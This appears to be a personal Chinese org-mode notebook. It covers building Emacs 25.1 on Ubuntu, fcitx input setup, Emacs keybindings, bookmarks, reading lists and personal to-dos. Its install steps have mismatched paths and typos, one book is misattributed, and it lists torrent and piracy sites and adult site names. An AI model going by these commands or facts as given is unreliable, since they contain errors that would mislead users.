如何安装 GNU Emacs 25.1 在Ubuntu 16.04. Linux Ubuntu 的 GNU Emacs 文本编辑器是最受欢迎的 Emacs 文本编辑器. Emacs 是最古老和最多才多艺的文本编辑器可用于 Linux 和基于 UNIX 的系统之一. 它已经存在很长时间 (二十余年为 GNU emacs 的) 和是很出名的是其功能强大且丰富的编辑功能. 它是由 GNU 项目创始人理查德 · 斯托曼创建.
GNU EMACS 25.1
终于到达了 GNU Emacs 文本编辑器 25.1 释放昨晚. 这里是如何在 ubuntu 系统中安装它 16.04 和 Ubuntu 16.10.
Emacs的 25.1 发布亮点:
Emacs 现在可以加载共享/动态库 (模块)
开罗绘图的实验支持
增强的网络的安全 (TLS/SSL 证书的有效性和类似)
新小模式电-报价-模式使用弯的引号作为您键入
在 isearch.el 折叠支持的字符
Xwidgets: 一项新功能嵌入本机小部件里面 Emacs 缓冲区
新的和改进的设施，用于插入 Unicode 字符
安装GNU EMACS的 25.1 在 UBUNTU 中
在你安装 GNU Emacs 之前 25.1 在Ubuntu, 安装依赖使用下面的命令:
sudo apt install build-essential checkinstall
sudo apt-get build-dep emacs24
一旦安装了依赖项, 下载并安装 GNU Emacs 25.1 在Ubuntu 16.04, Ubuntu的 15.04, Ubuntu的 14.04 和其它 Ubuntu 衍生品:
sudo apt-get update
sudo wget http://ftp.gnu.org/gnu/emacs/emacs-25.1.tar.gz
sudo tar xzvf emacs-25.1.tar.gz
cd ~/Downloads/emacs-25.1
./configure
make
sudo checkinstall
一旦安装, Emacs 从 Ubuntu 破折号或打开运行命令 emacs 在终端来启动应用程序.
删除 EMACS
如果您想要卸载并删除 Emacs 从 Ubuntu 系统, 运行以下命令:
sudo dpkg -r emacs-25
fcitx安装以及在emacs中输入中文
安装步骤如下：
1：如果系统中有scim输入法的话，先进行卸载了，不然可能会和后面的fcitx的使用有冲突，卸载命令：

sudo apt-get remove scim
2：安装fcitx（安装前更新下源最好了），安装命令：

sudo apt-get update

sudo apt-get install fcitx
3：配置输入法：

1：在 etc/X11/Xsession.d/ 目录下，建立“95fcitx_start”文件，然后对其编辑，“sudo emacs /etc/X11/Xsession.d/95fcitx_start”，内容输入：

export LC_CTYPE=zh_CN.UTF-8

export XMODIFIERS=@im=fcitx

export XIM=fcitx

export XIM_PROGRAM=fcitx

fcitx
6.保存退出后，给该文件添加可执行权限，输入“sudo chmod +x /etc/X11/Xsession.d/95fcitx_start”

然后改下环境变量：sudo gedit~/.bashrc,在其中添加以下变量：

#fcitx
export XMODIFIERS="@im=fcitx"
export QT_IM MODULE=xim
export GTK_IM_MODULE=xim
重启电脑，小企鹅就会开机自动启动了，通过CTRL+SPACE就可以使用小企鹅中文输入法。
*** emacs commands
语法
emacs(选项)(参数)
选项
+<行号>：启动emacs编辑器，并将光标移动到制定行号的行；
-q：启动emacs编辑器，而不加载初始化文件；
-u<用户>：启动emacs编辑器时，加载指定用户的初始化文件；
-t<文件>：启动emacs编辑器时，把指定的文件作为中端，不适用标准输入（stdin）与标准输出（stdout）；
-f<函数>：执行指定lisp（广泛应用于人工智能领域的编程语言）函数；
-l<lisp代码文件>：加载指定的lisp代码文件；
-batch：以批处理模式运行emacs编辑器。
参数
文件：指定要编辑的文本文件。

emacs命令操作大全
基本命令

C-x C-c : 退出Emacs
C-x C-f : 打开一个文件，如果文件不存在，则创建一个文件
C-g : 取消未完成的命令
编辑

C-z (redefined): Undo；原来C-z是挂起Emacs（然后用fg命令调出）；C-x u 是默认的命令； 移动一下光标，再C-z就可以redo
M-d : 删除光标后的词语
移动光标

C-v : 向前翻页
M-v : 向后翻页
M-r : 将光标移动到屏幕中间那行
C-a : 移到行首
M-a : 移到句首，从行首到句首之间可能有空格
C-e : 移到行尾
M-e : 移到句尾
M-{ : 向上移动一段
M-} : 向下移动一段
C-right : 向前移动一个单词
C-left : 向后移动一个单词
C-up : 向前移动一段
C-down : 向后移动一段
M-< : 移到整个文本开头
M-> : 移到整个文本末尾
C-u 数字 命令 : 执行多次(数字表示次数)该命令；"M-数字 命令" 也可以
M-x goto-line : 移动到某一行
C-l : 重绘屏幕，效果就是当前编辑行移动窗口中央
Buffer 相关

C-x k : 关闭当前buffer
C-x b : 切换到前一个编辑的buffer
C-x C-b : 列出当前所有buffer
C-x C-s : 保存当前buffer
C-x s : 保存所有未保存的buffer，会提示你是否需要保存
C-x C-w : 文件另存为
拷贝与粘贴

M-space (redefined): 设置mark; C-@ 是默认命令
C-w (redefined) : 剪切一块区域；如果没有设置mark，则是剪切一行
M-w (redefined) : 拷贝一块区域；如果没有设置mark, 则是拷贝一行
C-k : 从当前位置剪切到行尾
C-y : 粘贴
M-y : 用C-y拉回最近被除去的文本后，换成 M-y可以拉回以前被除去的文本。键入多次的M-y可以拉回更早以前被除去的文本。
C-x r k : 执行矩形区域的剪切
C-x r y : 执行矩形区域的粘贴
窗口操作
C-x 0 : 关闭当前窗口
C-x 1 : 将当前窗口最大化
C-x 2 : 垂直分割窗口
C-x 3 : 水平分割窗口
M-o (redefined) : 在窗口之间切换; C-x o 是默认命令
C-x 5 1/2/3/0 : 对frame类似的操作
C-x < : 窗口内容右卷
C-x > : 窗口内容左卷（这两个命令在垂直分割窗口后比较有用）
(C-u) C-x ^ : 加高当前窗口，如果有C-u，则每次加高4行
(C-u) C-x } : 加宽当前窗口
(C-u) C-x { : 压窄当前窗口
ESC C-v : 在其它窗口进行卷屏操作
搜索和替换

C-s : 向前搜索（增量式搜索）；连续C-s，跳到下一个搜索到的目标
C-s RET : 普通搜索
C-r : 向前搜索
C-s RET C-w : 按单词查询
M-% : 查询替换，也就是替换前会询问一下
M-x replace-string : 普通替换
Tags

M-! etags .c .h : 创建TAGS文件
M-. : 跳到tag所在位置
M-x list-tags : 列出tags
书签

C-x r m : 设置书签bookmark
C-x r b : 跳到bookmark处
帮助

C-h ? : 查看帮助信息
C-h f : 查看一个函数
C-h v : 查看一个变量
C-h k : 查看一个键绑定 (C－h c 也是查看键绑定，但是信息较简略)
C-h C-f : 查看一个函数的info，非常有用
C-h i : 看Info
其它

C-M-\ : 对选中区域，按照某种格式(比如C程序)进行格式化
C-x h : 全部选中
M-! : 执行外部shell命令
M-x shell : 模拟shell的buffer
M-x term : 模拟terminal, C-c k 关闭terminal
C-x C-q : 修改buffer的只读属性
*** org-mode
** programming
*** C
**** books
The C Programming Language,second edition
Expert C Programming,Peter.van.der.Linden

**** learning notebook

*** python
*** assembly language
*** java
** websites
*** trending
http://stackoverflow.com/
https://github.com/
https://news.ycombinator.com/news
*** programming
https://github.com/
https://about.gitlab.com/
http://stackoverflow.com/
https://www.gnu.org/
https://www.codecademy.com/

*** security

*** Operating System
https://www.linux.org/
https://www.kernel.org/
https://www.linuxfoundation.org/
https://kernelnewbies.org/
https://www.linux.com/
http://www.opendrivers.com/
https://www.debian.org/

*trending
https://www.reddit.com/
https://www.quora.com/
https://www.zhihu.com/
** hardware
HHKB
Realforce
WASD CODE
FILCO 圣手二代 /GKing2 代 / 忍者
cherry
notebook
sony DPT-RP1 CP1
** AI
*** Deep Learning
深度学习如何入门？
1、完成吴恩达机器学习课程的前五周，要做编程练习.
2、看完3Blue1Brown的视频。
3、完成吴恩达的深度学习专项系列课程，做练习。
4、如果你想搞图像，看专项课程第四讲，搞NLP或序列数据，看第五讲。
5、搜索你感兴趣的开源实现。如果你还没想好用什么语言，推荐Keras。然后根据需要，再迁到TensorFlow或者PyTorch框架。
斯坦福大学的CS231n和CS224ny
* interest
海贼王，Russia,Deutschland，France,美国Artifox公司设计的Desk 02,
** 奶粉：
澳大利亚：Devondale（德运），Maxigenes（美可卓），CapriLac（凯布瑞特）
新西兰：Anchor（安佳），a2
** literature
000.儒家十三经，即《周易》、《诗经》、《尚书》、《周礼》、《仪礼》、《礼记》、《左传》、《公羊传》、《谷梁传》、《论语》、《尔雅》、《孝经》、《孟子》
001.五经《诗经》《尚书》《礼记》《周易》《春秋》孔子整理（《春秋左氏传》左丘明)
002.四书《大学》《中庸》《论语》《孟子》
003.先秦百家《道德经》《庄子》《墨子》《荀子》《鬼谷子》《孙子兵法》《韩非子》
004.《山海经》
005.《楚辞》屈原
006.《吕氏春秋》吕不韦
007.《战国策》刘向
008.《淮南子》刘安
009.《史记》司马迁
010.《汉书》班固
012.《后汉书》范晔
013.《三国志》陈寿
014.《世说新语》刘义庆
015.《九章算术》秦九韶
016.《文心雕龙》刘勰
017.《杜甫诗》杜甫
018.《李白诗》李白
018.《资治通鉴》司马光
019.《西厢记》 王实甫
020. 《窦娥冤》 关汉卿
021. 《精忠旗》冯梦龙
022.《长生殿》洪昇
023.《赵氏孤儿》纪君祥
021.《三国演义》 罗贯中
022.《水浒传》 施耐庵
023.《西游记》吴承恩
024.《红楼梦》 曹雪芹 程伟元高鹗整理、无名氏续
025.《金瓶梅》 兰陵笑笑生
026. 《镜花缘》李汝珍
027. 《牡丹亭》汤显祖
028.《三言二拍》 （《三言》冯梦龙《二拍》凌濛初）
029. 《东周列国志》 冯梦龙著 蔡元放 改编
030.《聊斋志异》蒲松龄
031.《儒林外史》吴敬梓
032.《官场现形记》李宝嘉
034《孽海花》曾朴
035《二十年目睹之怪现状》吴趼人
036《老残游记》刘鹗
037.《封神演义》许仲琳
038.《徐霞客游记》徐霞客
039.《天工开物》宋应星
040.《本草纲目》李时珍
041.《菜根谭》洪应明
042. 《朝花夕拾·呐喊》鲁迅
043.《繁星· 春水》冰心
044.《骆驼祥子》《四世同堂》《茶馆》 老舍
045.《家》+《春》+《秋》=【激流三部曲】《雾》+《雨》+《电》=【爱情三部曲】巴金
046.《子夜》茅盾
047.《雷雨》曹禺
048. 《金锁记》《倾城之恋》《红玫瑰与白玫瑰》《色，戒》张爱玲
049. 《围城》钱钟书
050. 《傅雷家书》 傅雷
051. 《边城》 沈从文
法国
001.《伪君子》 莫里哀其他作品《喜剧六种》、《太太学堂》 《吝啬鬼》
002.《忏悔录》 卢梭
003.《嘉尔曼》 梅里美
004.《红与黑》 司汤达 其他作品《巴马修道院》
005.《欧也妮·葛朗台》 巴尔扎克其他作品《驴皮记》《交际花盛衰记》、《绝对之探求》《幻灭》 《高老头》（全集总纲《人间喜剧》）
006.《基督山伯爵》 大仲马 其他作品《玛戈王后的项链》、《四十五卫士》、《蒙梭罗夫人》《三个火枪手》（《三剑客》） （续集作品 《二十年后》、《布热日隆子爵》）
007《茶花女》 小仲马
008《包法利夫人》 福楼拜作家其他作品：《情感教育》
009《恶之花》 波德莱尔
010.《悲惨世界》 雨果 其他作品《冰岛恶魔》、《九三年》《海上劳工》《巴黎圣母院》《笑面人》
011.《莫泊桑中短篇小说集》 莫泊桑 其他作品 《俊友》
012.《萌芽》 左拉其他作品《小酒店》、《娜娜》、《金钱》
013.《约翰·克利斯朵夫》 罗曼·罗兰其他作品《名人传》
014.《追忆似水年华》 普鲁斯特
015.《局外人》《鼠疫》《西西弗的神话》 加缪
016.《情人》 杜拉斯
017.《巨人传》 拉伯雷
018.《蒙田随笔》 蒙田
019. 《海底两万里》儒勒·凡尔纳 其他作品《格兰特船长的女儿》、《神秘岛》《八十天环游地球记》
020. 《巴黎的秘密》欧仁·苏
021 《小王子》圣·埃克苏佩里
022《安德洛玛刻》 拉辛
023《费加罗的婚姻》 博马舍
024.《恭顺的妓女》萨特
025.《茫茫黑夜漫游》塞利纳
026.《亚森.罗宾探案全集》莫里斯.勒布朗
俄国
001.《普希金抒情诗选》 普希金. 其他作品 《上尉的女儿》.《叶甫盖妮·奥涅金》
002 《钦差大臣》 果戈理. 其他作品 《死魂灵》
003.《父与子》 屠格涅夫其他作品《猎人笔记》《前夜·贵族之家》
004.《战争与和平》 列夫·托尔斯泰其他作品 .《安娜·卡列尼娜》《复活》
005 《第四十一》拉夫列尼约夫
006.《卡拉马佐夫兄弟》 陀斯妥耶夫斯基其他作品 .《罪与罚》《白痴》《群魔》
007.《契诃夫短篇小说选》 契诃夫
008.《樱桃园》 契诃夫
009.《童年》 高尔基其他作品 《在人间》《我的大学》
010.《静静的顿河》 肖洛霍夫
011.《一个人的遭遇》 肖洛霍夫
012.《钢铁是怎样炼成的》 奥斯特洛夫斯基
013.《日瓦戈医生》 帕斯捷尔纳克
014.《彼得大帝》 阿·托尔斯泰其他作品《苦难的历程》
015. 《青年近卫军》 法捷耶夫其他作品 《毁灭》
016.《奥勃洛摩夫》 冈察洛夫
017. 《怎么办？》车尔尼雪夫斯基
018.《大雷雨》 奥斯特洛夫斯基
019.《这里的黎明静悄悄》瓦西里耶夫
020.《大师和玛格丽特》布尔加科夫其他作品《狗心》《不祥的蛋》
021.《癌症楼》索尔仁尼琴
022.《我们》叶·扎米亚京
德国
001.《少年维特之烦恼》 歌德
002.《浮士德》 歌德
003.《阴谋与爱情》 席勒
004.《海涅抒情诗选》 海涅 其他作品 《德国，一个冬天的童话》
005.《查拉图斯特拉如是说》 尼采
006.《布登勃洛克一家》 托马斯·曼其他作品《魔山》
007.《西线无战事》 雷马克
008.《铁皮鼓》 君特·格拉斯
009.《格林童话》格林兄弟
010.《荒原狼》黑塞
法国
028.《来，一只看不见的笛子》 雨果
029.《当一切入睡》 雨果
030.《黄昏的和谐》 波德莱尔
031.《烦闷》（二） 波德莱尔
032.《天鹅》马拉美
033.《月光》魏尔伦
034.《元音》兰波
035.《公园里》普列维尔
德国
036.《迷娘歌》 歌德
037.《相逢与别离》 歌德
038.《漫游者的夜歌》 歌德
039.《欢乐颂》 席勒
040.《乘着歌声的翅膀》海涅
041.《你就象一朵花》海涅
042.《醉歌》 尼采
043.《阴影的王国》 恩岑斯·贝格尔
苏俄
055.《致大海》 普希金
056.《致凯恩》 普希金
057.《假如生活欺骗了你》 普希金
058.《帆》莱蒙托夫
059.《云》 莱蒙托夫
060.《爱花园》阿赫马托娃
061.《开会迷》马雅可夫斯基
062.《我沿着初雪漫步……》叶塞宁
063.《我部叹惋、呼唤和哭泣》 叶塞宁
064.《我辞别了我出生的屋子》 叶塞宁
065.《我生性就是如此》 帕斯捷尔纳克
066.《喀秋莎》伊萨科夫斯基
067.《等着我吧》西蒙诺夫

** Russia
*** literature
普希金的诗体小说《叶甫盖尼奥涅金》《上尉的女儿》和他的短篇小说
果戈里《死魂灵》《钦差大臣》
屠格涅夫《猎人笔记》
陀思妥耶夫斯基《罪与罚》《卡拉马佐夫兄弟》
列夫托尔斯泰《战争与和平》《安娜·卡列尼娜》《复活》
契诃夫的短篇小说，戏剧《樱桃园》《万尼亚舅舅》《海鸥》
吉皮乌斯的诗
勃洛克的诗别雷《彼得堡》
阿赫玛托娃的诗帕斯捷尔纳克《日瓦戈医生》
茨维塔耶娃的诗
蒲宁的短篇小说
布尔加科夫《大师与玛格丽特》
拉斯普京
布罗茨基的诗
巴别尔《骑兵军》
布尔加科夫《孽卵》《大师和玛格丽特》
肖洛霍夫《静静的顿河》
帕斯捷尔纳克《日瓦戈医生》
** Deutschland
《新标准德语强化教程》1～3册啊，这是外研社引进的原版教材，是德国著名的Hueber社（专于出版德语教材的一个大社）出版的Themen aktuell系列教材，
分别对应欧洲语言共同标准A1, A2, B1, 词汇量巨大；除此之外还需要增加正式文体多一些的Begegnungen和Erkundungen系列教材，强化语法阅读和写作.
歌德学院官方的 MitErfolg zum Goethe-Zertifikat B1, B2, C1, TestDAF，以及Telc B2
标准德语语法--精解与练习
德语词汇联想与速记

* Vedio
https://eztv.ag/
https://rarbg.is/torrents.php
http://www.ttmeiju.vip/
http://www.addic7ed.com/
* course
https://www.coursera.org/
https://opensource.com/
https://www.edx.org/
https://www.icourse163.org/
http://open.163.com/
http://www.mooc.cn/
https://www.freecodecamp.org/
* websites
pornhub,1024,草榴，春天的故事
* TODO become a graduate

保姆
大润发房子
小秦发文
长春取钱贴膜后备箱垫
吉大二院检查

